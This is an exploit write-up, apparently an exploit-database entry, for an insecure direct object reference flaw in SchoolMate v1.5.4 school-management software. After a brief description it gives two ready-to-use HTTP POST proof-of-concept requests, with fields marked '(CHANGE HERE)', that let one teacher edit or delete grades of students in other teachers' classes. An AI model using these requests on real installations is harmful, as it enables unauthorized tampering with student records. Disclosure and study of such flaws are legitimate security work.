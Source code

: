 # Exploit Title: SchoolMate v1.5.4 - Insecure Direct Object Reference(IDOR)
## Date: 4/1/2024
## Vendor Homepage: https://sourceforge.net/projects/schoolmate/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SchoolMate
## Version: v1.5.4
## Exploit Description:
## SchoolMate v1.5.4 suffers from IDOR - Broken Access Control Vulnerability allowing attacker teacher to edit and delete grade of student who is in other class that is assigned by other teacher(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /index.php HTTP/1.1
...
gradedate=10%2F7%2F2023&points=20&comment=hello+user1&editgrade=1&gradeid=&wasgrade=0.0&wasdate=&student=1(CHANGE HERE)&assignment=1&selectclass=2(CHANGE HERE)&page2=3&date=&logout=&page=2
```

```
POST /index.php HTTP/1.1
...

assignment=1(CHANGE HERE)&delete%5B%5D=1(CHANGE HERE)&addgrade=&deletegrade=1&selectclass=1&selectgrade=1&page2=3&logout=&page=2
```